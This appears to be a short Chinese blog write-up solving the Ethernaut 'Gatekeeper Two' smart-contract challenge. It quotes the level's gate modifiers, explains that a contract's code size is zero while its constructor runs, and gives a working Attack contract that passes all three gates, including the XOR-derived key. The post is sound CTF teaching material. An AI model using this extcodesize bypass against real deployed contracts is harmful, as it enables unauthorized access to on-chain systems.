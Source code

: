 ```yaml
---
title: Ethernaut - Gatekeeper Two
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-23
---
```


第二题，差不多，就是有个汇编代码关键字。

<!--more-->

```solidity
assembly {
    x := extcodesize(caller())
}
```

- extcodesize(address)是用于返回地址的字节码长度
    - 如果是合约，字节码长度非零
    - 如果是账户，字节码长度为零

- caller() 就是 msg.sender；



这就有点奇怪了啊？

```Solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}

modifier gateTwo() {
    uint256 x;
    assembly {
        x := extcodesize(caller())
    }
    require(x == 0);
    _;
}

modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

既要发送者是账户，又要经过合约转发？



绕过gateTwo的方法是，合约在创建阶段，字节码长度还是0；所以在构造函数里调用就可以了。

第三问一个简单的位运算。

```solidity
contract Attack {
    constructor(address _target) {
        GatekeeperTwo gk = GatekeeperTwo(_target);

        bytes8 key = bytes8(~uint64(bytes8(keccak256(abi.encodePacked(address(this))))));
        gk.enter(key);
    }
}
```



